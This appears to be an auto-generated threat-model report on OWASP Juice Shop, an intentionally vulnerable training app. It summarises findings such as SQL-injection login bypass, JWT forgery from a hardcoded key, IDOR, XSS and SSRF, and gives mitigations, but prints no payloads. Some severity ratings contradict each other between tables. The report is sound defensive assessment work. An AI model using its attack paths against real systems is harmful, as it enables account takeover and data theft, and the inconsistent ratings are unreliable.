# Threat Model - Juice Shop

_Generated by appsec-advisor v0.4.0-beta (analysis v2)_


---

> | | |
> |---|---|
> | **Project** | Juice Shop v20.0.0 |
> | **Description** | Probably the most modern and sophisticated insecure web application |
> | **Author** | Björn Kimminich <bjoern.kimminich@owasp\.org> (https://kimminich.de) |
> | **License** | MIT |
> | **Repository** | https://github.com/juice-shop/juice-shop |
> | **Homepage** | https://owasp-`juice.shop` |
> | **Runtime** | Node\.js 22 - 25, Express 4 |
> | **Tags** | web security, web application security, webappsec, owasp, pentest, pentesting, security, vulnerable, vulnerability, broken, bodgeit, ctf, capture the flag, awareness |

---

## Changelog

_Append-only history of assessment runs. Most recent first._

| Version | Date | Mode | Depth | Reasoning | Baseline → Current | Δ Threats | Code | Note |
|--------|----------|--------|--------|--------------|------------------|----------------|--------|---------------|
| v1 | 2026-06-21 | full | standard | opus | _(initial)_ | 74 total | - | first full scan |

---

## Table of Contents

- [Management Summary](#management-summary)
- [Critical Attack Tree](#critical-attack-tree)
1. [System Overview](#1-system-overview)
   - [Scope](#scope)
- [1.5 Identified Actors](#15-identified-actors)
2. [Architecture Diagrams](#2-architecture-diagrams)
   - [2.1 System Context](#21-system-context)
   - [2.2 Container Architecture](#22-container-architecture)
   - [2.3 Components](#23-components)
   - [2.4 Technology Architecture](#24-technology-architecture)
3. [Attack Walkthroughs](#3-attack-walkthroughs)
   - [3.1 Hardcoded RSA JWT signing key in source](#31-hardcoded-rsa-jwt-signing-key-in-source)
   - [3.2 Insecure JWT Verification](#32-insecure-jwt-verification)
   - [3.3 OAuth deriving account password from email enables auth](#33-oauth-deriving-account-password-from-email-enables-auth)
   - [3.4 SQL injection in login query enables auth bypass](#34-sql-injection-in-login-query-enables-auth-bypass)
   - [3.5 SQL injection in product search raw query](#35-sql-injection-in-product-search-raw-query)
   - [3.6 Insecure Direct Object Reference](#36-insecure-direct-object-reference)
   - [3.7 Hardcoded RSA signing key enables offline JWT forgery](#37-hardcoded-rsa-signing-key-enables-offline-jwt-forgery)
   - [3.8 Passwords stored as unsalted MD5 hashes](#38-passwords-stored-as-unsalted-md5-hashes)
4. [Assets](#4-assets)
5. [Attack Surface](#5-attack-surface)
   - [5.1 Unauthenticated Entry Points (58)](#51-unauthenticated-entry-points-58)
   - [5.2 Authenticated Entry Points (52)](#52-authenticated-entry-points-52)
7. [Security Architecture](#7-security-architecture)
   - [7.1 Security Control Overview](#71-security-control-overview)
   - [7.2 Identity and Authentication Controls](#72-identity-and-authentication-controls)
   - [7.3 Session and Token Controls](#73-session-and-token-controls)
   - [7.4 Authorization Controls](#74-authorization-controls)
   - [7.5 Query Construction and Data Access Controls](#75-query-construction-and-data-access-controls)
   - [7.6 Input Boundary Validation Controls](#76-input-boundary-validation-controls)
   - [7.7 Output Encoding and Rendering Controls](#77-output-encoding-and-rendering-controls)
   - [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls)
   - [7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection)
   - [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls)
   - [7.11 Operations Runtime and Supply Chain Controls](#711-operations-runtime-and-supply-chain-controls)
   - [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls)
   - [7.13 Defense-in-Depth Summary](#713-defense-in-depth-summary)
8. [Findings Register](#8-findings-register)
9. [Abuse Cases](#9-abuse-cases)
10. [Mitigation Register](#10-mitigation-register)
11. [Out of Scope](#11-out-of-scope)
- [Appendix: Run Statistics](#appendix-run-statistics)
- [Appendix A - Vektor Taxonomy](#appendix-a-vektor-taxonomy)

> _Section numbering is non-contiguous: §6 was retired in a prior revision. The remaining sections keep their original numbers so existing cross-references stay valid._

---

## Management Summary

### Verdict

🔴 Not production-ready. Juice Shop was built as a security-training target and ships with intentional weaknesses at every tier - authentication, data access, and secret management are all structurally broken, not merely misconfigured. Anyone who can reach the login page or read the public source repository can take over admin accounts and read the entire user and payment database without privileged access. Deployment as a real service would immediately expose customers to account takeover and data exfiltration.

**Risk distribution:** 🔴 Critical: 8 · 🟠 High: 38 · 🟡 Medium: 18 · 🟢 Low: 10 · **Total: 74**


<br/>

**Worst-case scenarios behind this verdict - what an attacker can do today:**

<blockquote style="border-left: 3px solid #dc2626; background: #fef2f2; padding: 16px 20px; margin: 0;">

- **Admin takeover without a password** — The login form accepts a simple SQL injection payload and logs the attacker in as the first (admin) user, granting full control over all shop data and admin functions. *(🔴 [F-005](#f-005) — SQL injection in login query enables auth bypass — routes/login.ts:34, 🔴 [F-006](#f-006) — SQL injection in product search raw query — routes/search.ts:23)*
- **Forge any session — including admin — with no credentials** — The signing key for every session token is a committed string in the public repository. Anyone who clones the repo can mint a valid admin session offline, bypassing every authorization check. *(🔴 [F-002](#f-002) — Hardcoded RSA JWT signing key in source — lib/insecurity.ts:23, 🔴 [F-003](#f-003) — Insecure JWT Verification — lib/insecurity.ts:57, 🔴 [F-008](#f-008) — Hardcoded RSA signing key enables offline JWT forgery — lib/insecurity.ts:23)*
- **Hijack any account via a known email address** — The OAuth login flow derives each account's password directly from the account's email address. An attacker who knows a victim's email can compute the password and log in as that person through the standard login form, with no OAuth interaction required. *(🔴 [F-004](#f-004) — OAuth deriving account password from email enables auth — oauth.component.ts:30)*
- **Read or modify any customer's orders, addresses, and payment data** — Dozens of routes accept a customer identifier from the request body instead of deriving it from the authenticated session. Any logged-in user can substitute another customer's id and read or overwrite their records. *(🔴 [F-007](#f-007) — Insecure Direct Object Reference — routes/address.ts:11)*
- **Recover all passwords once the database is accessed** — Passwords are stored as single-round, unsalted MD5 hashes. A database dump yields the full plaintext password list in seconds on commodity hardware, enabling account takeover and credential-stuffing attacks against other services. *(🔴 [F-009](#f-009) — Passwords stored as unsalted MD5 hashes — models/user.ts:77)*

</blockquote>

<br/>

The structural repairs - moving secrets to a runtime secret store, switching raw SQL to parameterized queries, deriving authorization from signed session identity, and replacing `MD5` password hashing - are prerequisites before this codebase can be considered for production use.

**Attack-chain analysis.** 2 findings anchor 2 code-verified attack chains (see [§9](#9-abuse-cases) Abuse Cases): 🔴 [F-003](#f-003) — Insecure JWT Verification (`lib/insecurity.ts:57`), 🔴 [F-007](#f-007) — Insecure Direct Object Reference (`routes/address.ts:11`). Their Critical/High ratings reflect exploitability confirmed end-to-end across the chain, not the individual weakness alone.

### Security Posture & Top Threats

**Figure 1 - Architecture & Top Threats**

Architecture tiers top-to-bottom (External Actors → Client → Application → Data) with the top threats per component. The in-figure legend on the right explains the attack scenarios, severity dots and symbols.


**Figure 2 - Risk Flow: Actor → Tier → Impact**

Heatmap: **actors** (left) → **architecture tiers** (middle, Client → Application → Data) → **impact** (right). Numbered red arrows ①–⑦ are the threats enumerated in the Top Threats table below. Self-registration is open, so the **Authenticated Internet Attacker** tier is one POST away from anonymous - it is shown distinctly because a post-login endpoint is still a different attack surface.



**Threat actors.** The actors below drive the numbered attack paths in the figures above. The **Shop User** is the *victim* of client-side attacks (XSS / CSRF), not an attacker - in Figure 2 the compromise surfaces as the resulting business-impact node rather than as a separate actor box.

- **Shop User** — legitimate customer; target of client-side attacks; target of ⑥ Output Encoding / Cross-Site Scripting, ⑦ CSRF / Permissive CORS.
- **Anonymous Internet Attacker** — no account; registers in seconds when needed; drives ① Insecure Query Construction & Data Access, ② Hardcoded Secrets & Weak Cryptography, ④ Remote Code Execution (unsafe eval), ⑤ Sensitive File & Secret Exposure.
- **Authenticated Internet Attacker** — owns a regular account; logged in; drives ③ Broken Authorization & Access Control.

**7 structural threats**, grouped by weakness class - each row is one threat, not one finding. *Threat Description* states the general architectural weakness (STRIDE in brackets); *Findings* lists the concrete instances, each linked to [§8 Findings Register](#8-findings-register) with its component; *Risk & Impact* combines severity with business consequence.

| # | Threat Description | Findings (→ Component) | Risk & Impact | Fix |
|---|------------------------------------|------------------------------------------------|------------------------------------|--------|
| <a id="path-injection"></a>① | **Insecure Query Construction & Data Access** _(T·I)_<br/>User-controlled strings are concatenated into raw SQL queries on the login and product-search routes with no parameterization, allowing unauthenticated extraction of the full user and payment database. | <span style="white-space:nowrap">🔴&nbsp;[F-005](#f-005)</span> - SQL injection in login query enables auth bypass (`routes/login.ts:34`) <span style="white-space:nowrap">→&nbsp;[C-09](#c-09)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-006](#f-006)</span> - SQL injection in product search raw query (`routes/search.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-011](#f-011)</span> - Missing Authentication on Chat Endpoint (`server.ts:637`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-021](#f-021)</span> - XXE: XML parsed with external entities enabled (`routes/fileUpload.ts:83`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration · Full Admin Takeover | <span style="white-space:nowrap">❶ [M-019](#m-019)</span> — Use parameterized database queries<br/><span style="white-space:nowrap">❶ [M-020](#m-020)</span> — Use parameterized database queries |
| <a id="path-auth-bypass"></a>② | **Hardcoded Secrets & Weak Cryptography** _(S·E)_<br/>The RSA private key used to sign all session tokens is committed as a source literal, and verification accepts the algorithm-confusion attack vector, letting anyone with source access mint arbitrary admin sessions offline. | <span style="white-space:nowrap">🔴&nbsp;[F-002](#f-002)</span> - Hardcoded RSA JWT signing key in source (`lib/insecurity.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-09](#c-09)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-003](#f-003)</span> - Insecure JWT Verification (`lib/insecurity.ts:57`) <span style="white-space:nowrap">→&nbsp;[C-09](#c-09)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-004](#f-004)</span> - OAuth deriving account password from email enables auth (`oauth.component.ts:30`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-008](#f-008)</span> - Hardcoded RSA signing key enables offline JWT forgery (`lib/insecurity.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-009](#f-009)</span> - Passwords stored as unsalted `MD5` hashes (`models/user.ts:77`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-020](#f-020)</span> - Hardcoded HMAC key guards knowledge-based password reset (`lib/insecurity.ts:44`) <span style="white-space:nowrap">→&nbsp;[C-09](#c-09)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-029](#f-029)</span> - Security answers HMAC'd with a hardcoded static (`models/securityAnswer.ts:48`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-059](#f-059)</span> - Container image signing (`lock.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span> | 🔴 **Critical**<br/>Full Admin Takeover · Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-016](#m-016)</span> — Move cryptographic keys to a managed secret store<br/><span style="white-space:nowrap">❶ [M-017](#m-017)</span> — Enforce JWT signature and algorithm verification |
| <a id="path-privilege-escalation"></a>③ | **Broken Authorization & Access Control** _(E·I)_<br/>Authorization on resource-fetching routes is derived from attacker-controlled request fields rather than the signed session identity, enabling any authenticated user to read or modify any other customer's records across dozens of endpoints. | <span style="white-space:nowrap">🔴&nbsp;[F-007](#f-007)</span> - Insecure Direct Object Reference (`routes/address.ts:11`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-014](#f-014)</span> - Zip-Slip path traversal in complaint zip extraction (`routes/fileUpload.ts:44`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-024](#f-024)</span> - GitHub Actions workflow-level permissions block (`release.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-038](#f-038)</span> - Server-side eval of user-controlled username (`routes/userProfile.ts:61`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-039](#f-039)</span> - Sensitive Routes Registered Without Authentication Middleware (`server.ts:310`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-040](#f-040)</span> - Authenticated GET `/api/Users` exposes full user table without (`server.ts:362`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-043](#f-043)</span> - `User.role` is a mass-assignable column with only isIn (`models/user.ts:80`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-045](#f-045)</span> - Excessive LLM Agency in Coupon Tool (`routes/chat.ts:174`) <span style="white-space:nowrap">→&nbsp;[C-06](#c-06)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-062](#f-062)</span> - GITHUB_TOKEN scope minimization (`lock.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration · Full Admin Takeover | <span style="white-space:nowrap">❶ [M-021](#m-021)</span> — Enforce object-level (ownership) authorization<br/><span style="white-space:nowrap">❷ [M-028](#m-028)</span> — Validate extracted zip entry paths with a normalized prefix containment check |
| <a id="path-remote-code-execution"></a>④ | **Remote Code Execution (unsafe eval)** _(E)_<br/>Attacker-supplied strings reach server-side JavaScript evaluation sinks without sandboxing, providing two independent paths to arbitrary code execution on the backend host. | <span style="white-space:nowrap">🟠&nbsp;[F-022](#f-022)</span> - SSRF (`routes/profileImageUrlUpload.ts:24`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-032](#f-032)</span> - Reset-password rate limit keyed on spoofable forwarding header (`server.ts:346`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-038](#f-038)</span> - Server-side eval of user-controlled username (`routes/userProfile.ts:61`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span> | 🟠 **High**<br/>Full Server Compromise · Customer Data Exfiltration | <span style="white-space:nowrap">❷ [M-036](#m-036)</span> — Validate and allowlist outbound request targets<br/><span style="white-space:nowrap">❷ [M-041](#m-041)</span> — Key reset-password rate limiting on the trusted socket IP, not X-Forwarded-For |
| <a id="path-sensitive-data-exposure"></a>⑤ | **Sensitive File & Secret Exposure** _(I)_<br/>Management endpoints, the Prometheus metrics surface, and directory listings are accessible without authentication; SSRF allows the server to fetch internal resources on the attacker's behalf. | <span style="white-space:nowrap">🟠&nbsp;[F-022](#f-022)</span> - SSRF (`routes/profileImageUrlUpload.ts:24`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-028](#f-028)</span> - Sensitive columns stored unencrypted at rest (`models/card.ts:40`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-046](#f-046)</span> - Web3 state-changing endpoints registered without authentication (`server.ts:642`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-047](#f-047)</span> - Redirect allowlist uses substring match, enabling open (`lib/insecurity.ts:138`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-055](#f-055)</span> - No security audit log for authentication and admin actions (`routes/login.ts:34`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-057](#f-057)</span> - Express errorhandler returns full stack traces unconditionally (`server.ts:678`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-063](#f-063)</span> - Unbounded LLM Consumption on Chat Endpoint (`server.ts:637`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟢&nbsp;[F-068](#f-068)</span> - Unauthenticated GET `/metrics` exposes Prometheus internals (`server.ts:725`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟢&nbsp;[F-073](#f-073)</span> - Raw error message returned to client on web3 handler (`routes/nftMint.ts:33`) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span> | 🟠 **High**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">❷ [M-036](#m-036)</span> — Validate and allowlist outbound request targets<br/><span style="white-space:nowrap">❷ [M-055](#m-055)</span> — Gate `/rest/web3` endpoints behind security.isAuthorized and scope state per authenticated user |
| <a id="path-cross-site-scripting"></a>⑥ | **Output Encoding / Cross-Site Scripting** _(T·I)_<br/>Angular's DOM sanitizer is bypassed via trusted-HTML calls for attacker-controlled content including the last-login IP claim and search-result rendering, and session tokens stored in JavaScript-readable storage are immediately exfiltrable by any payload that executes. | <span style="white-space:nowrap">🟠&nbsp;[F-017](#f-017)</span> - Stored XSS (`last-login-ip.component.ts:39`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-018](#f-018)</span> - DOM XSS (`search-result.component.ts:143`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-030](#f-030)</span> - OAuth access_token passed in URL fragment and query (`oauth.component.ts:28`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-031](#f-031)</span> - JWT stored in non-httpOnly localStorage (`request.interceptor.ts:16`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-044](#f-044)</span> - Admin authorization decided client-side from unverified JWT (`app.guard.ts:57`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-052](#f-052)</span> - InnerHTML sink renders markdown-derived hint HTML (`index.ts:126`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🟠 **High**<br/>Customer Session Hijack | <span style="white-space:nowrap">❷ [M-031](#m-031)</span> — Encode output instead of bypassing the framework sanitizer<br/><span style="white-space:nowrap">❷ [M-032](#m-032)</span> — Encode output instead of bypassing the framework sanitizer |
| <a id="path-cross-site-request-forgery"></a>⑦ | **CSRF / Permissive CORS** _(S·T)_<br/>The Socket\.IO server is configured with a wildcard CORS origin, allowing any external page to open an authenticated real-time connection in the victim's browser context. | <span style="white-space:nowrap">🟢&nbsp;[F-072](#f-072)</span> - Hardcoded permissive CORS origin on Socket\.IO (`registerWebsocketEvents.ts:21`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span> | 🟢 **Low**<br/>Customer Session Hijack | <span style="white-space:nowrap">❹ [M-074](#m-074)</span> — Source the Socket.IO CORS origin from configuration with an explicit allowlist |

_STRIDE: S spoofing · T tampering · R repudiation · I information disclosure · D denial of service · E elevation of privilege. Risk, findings, components, impact and Fix are derived deterministically; only the one-line weakness description is authored._

**Verified attack chains.** 2 fully viable ([AC-T-003](#ac-t-003), [AC-T-004](#ac-t-004)); 4 partially blocked ([AC-T-001](#ac-t-001), [AC-T-002](#ac-t-002), [AC-T-005](#ac-t-005), [AC-T-006](#ac-t-006)). These chains combine individual findings into end-to-end exploitation paths verified step-by-step against the code - see [§9 Abuse Cases](#9-abuse-cases) for the per-step breakdown and blocking mitigations.

### Top Mitigations

Highest-impact P1/P2 mitigations - 10 of 44 qualifying (76 total). Full detail in [§10 Mitigation Register](#10-mitigation-register). All 9 mitigation(s) that fix a Critical finding are always listed here.

| # | Component | Mitigation | Addresses | Effort |
|---|----------------------|------------------------------------------------|------------------------------------------------|------|
| **1** | [C-01](#c-01) — Express REST API Backend | ❶ [M-002](#m-002) — Implement comprehensive rate limiting across all sensitive endpoints | 🔴 [F-032](#f-032) — Reset-password rate limit keyed on spoofable forwarding header (`server.ts`)<br/>🟠 [F-033](#f-033) — No rate limiting on login endpoint permits credential (`routes/login.ts`)<br/>🟠 [F-034](#f-034) — No rate limiting or lockout on POST `/rest/user/login` (`server.ts`)<br/>🟠 [F-036](#f-036) — Web3 endpoints have no rate limiting and grow (`routes/web3Wallet.ts`)<br/>🟡 [F-064](#f-064) — No rate limiting or connection cap on (`registerWebsocketEvents.ts`) | Medium |
| **2** | [C-01](#c-01) — Express REST API Backend | ❶ [M-020](#m-020) — Use parameterized database queries | 🔴 [F-006](#f-006) — SQL injection in product search raw query (`routes/search.ts`) | Low |
| **3** | [C-01](#c-01) — Express REST API Backend | ❶ [M-021](#m-021) — Enforce object-level (ownership) authorization | 🔴 [F-007](#f-007) — Insecure Direct Object Reference (`routes/address.ts`) | Medium |
| **4** | [C-01](#c-01) — Express REST API Backend | ❶ [M-022](#m-022) — Move secrets to a managed secret store | 🔴 [F-008](#f-008) — Hardcoded RSA signing key enables offline JWT forgery (`lib/insecurity.ts`) | Medium |
| **5** | [C-02](#c-02) — Angular SPA Frontend | ❶ [M-018](#m-018) — Harden the authentication flow | 🔴 [F-004](#f-004) — OAuth deriving account password from email enables auth (`oauth.component.ts`) | Medium |
| **6** | [C-03](#c-03) — SQLite Data Layer | ❶ [M-023](#m-023) — Hash passwords with a strong, salted algorithm | 🔴 [F-009](#f-009) — Passwords stored as unsalted MD5 hashes (`models/user.ts`) | Medium |
| **7** | [C-09](#c-09) — Authentication and Session Surface | ❶ [M-001](#m-001) — Move cryptographic keys to a managed secret store | 🔴 [F-002](#f-002) — Hardcoded RSA JWT signing key in source (`lib/insecurity.ts`)<br/>🔴 [F-008](#f-008) — Hardcoded RSA signing key enables offline JWT forgery (`lib/insecurity.ts`)<br/>🔴 [F-020](#f-020) — Hardcoded HMAC key guards knowledge-based password reset (`lib/insecurity.ts`)<br/>🔴 [F-029](#f-029) — Security answers HMAC'd with a hardcoded static (`models/securityAnswer.ts`) | Medium |
| **8** | [C-09](#c-09) — Authentication and Session Surface | ❶ [M-019](#m-019) — Use parameterized database queries | 🔴 [F-005](#f-005) — SQL injection in login query enables auth bypass (`routes/login.ts`) | Low |
| **9** | [C-09](#c-09) — Authentication and Session Surface | ❶ [M-016](#m-016) — Move cryptographic keys to a managed secret store | 🔴 [F-002](#f-002) — Hardcoded RSA JWT signing key in source (`lib/insecurity.ts`) | Medium |
| **10** | [C-09](#c-09) — Authentication and Session Surface | ❶ [M-017](#m-017) — Enforce JWT signature and algorithm verification | 🔴 [F-003](#f-003) — Insecure JWT Verification (`lib/insecurity.ts`) | Medium |

*34 additional P1/P2 mitigations capped from the leader-board · 32 P3 backlog items in [§10 Mitigation Register](#10-mitigation-register). Sorted by priority (P1 first), then component, then leverage (most findings first), severity (Critical first), and effort (Low first).*

### Operational Strengths

Operational controls rated Adequate or Partial - grouped into broad clusters (full per-control breakdown in [§7](#7-security-architecture)). Clusters demoted to Weak by open Critical/High findings appear in [§7](#7-security-architecture) instead, not here.

<table style="table-layout:fixed;width:100%">
<colgroup><col width="18%" style="width:18%"><col width="28%" style="width:28%"><col width="13%" style="width:13%"><col width="30%" style="width:30%"><col width="11%" style="width:11%"></colgroup>
<thead><tr><th>Strength</th><th>What's in Place</th><th>Effectiveness</th><th>Gap</th><th>Mitigates</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:anywhere"><strong>Container &amp; Supply-Chain Hardening</strong></td><td style="overflow-wrap:anywhere"><em>Build-time and runtime hardening - minimal base image, non-root execution, dependency inventory.</em><br/>Automated SCA scanning<br/>Container Hardening</td><td>✅ Adequate</td><td style="overflow-wrap:anywhere">-</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere"><strong>Observability &amp; Audit</strong></td><td style="overflow-wrap:anywhere"><em>Runtime visibility - access logging, audit trails, and operational telemetry for post-incident review.</em><br/>Logging and Audit</td><td>⚠️ Partial</td><td style="overflow-wrap:anywhere">Coverage incomplete - see <a href="#7-security-architecture">§7</a> control assessment.</td><td style="overflow-wrap:anywhere">-</td></tr>
</tbody>
</table>


**Bottom line:** These controls narrow specific attack surfaces but none eliminates a Critical finding on its own.

---

<a id="critical-attack-chain"></a><a id="critical-attack-tree"></a>
## Critical Attack Tree

The root is the worst-case attacker goal; below it, each capability branch groups the Critical findings that achieve it. Branches feed the goal by OR - any single path suffices.



**Findings** (full detail in [§8 Findings Register](#8-findings-register)): 🔴 [F-005](#f-005) — SQL injection in login query enables auth bypass — `routes/login.ts:34` SQL injection in login query · 🔴 [F-006](#f-006) — SQL injection in product search raw query — `routes/search.ts:23` SQL injection in product search · 🔴 [F-002](#f-002) — Hardcoded RSA JWT signing key in source — `lib/insecurity.ts:23` Hardcoded RSA JWT signing key · 🔴 [F-003](#f-003) — Insecure JWT Verification — `lib/insecurity.ts:57` Insecure JWT verification · 🔴 [F-008](#f-008) — Hardcoded RSA signing key enables offline JWT forgery — `lib/insecurity.ts:23` Hardcoded RSA signing key offline forgery · 🔴 [F-004](#f-004) — OAuth deriving account password from email enables auth — `oauth.component.ts:30` OAuth email-derived password bypass · 🔴 [F-007](#f-007) — Insecure Direct Object Reference — `routes/address.ts:11` Insecure direct object reference · 🔴 [F-009](#f-009) — Passwords stored as unsalted MD5 hashes — `models/user.ts:77` Unsalted `MD5` password hashes

---

## 1. System Overview

Probably the most modern and sophisticated insecure web application

**Repository:** https://github.com/juice-shop/juice-`shop.git`
**Runtime:** Node\.js 22 - 25

### Scope

This threat model covers 9 components of juice-shop: **Express REST API Backend**, **Angular SPA Frontend**, **SQLite Data Layer**, **Socket\.IO Real-Time Service**, **CI/CD Pipeline**, **LLM Chat Interface**, **Web3/NFT Integration**, **Authentication & Session Surface**, **Authentication and Session Surface**.

All 9 modeled components received full STRIDE threat analysis.

**Out of scope:** third-party hosted dependencies, browser runtime, operating-system kernel, and the underlying network infrastructure.

---

## 2. Architecture Diagrams

### 2.1 System Context

Who interacts with juice-shop from the outside, and through which channels. Solid arrows show normal usage; dashed red arrows mark unauthenticated probing or exploit paths (C4 Level 1).

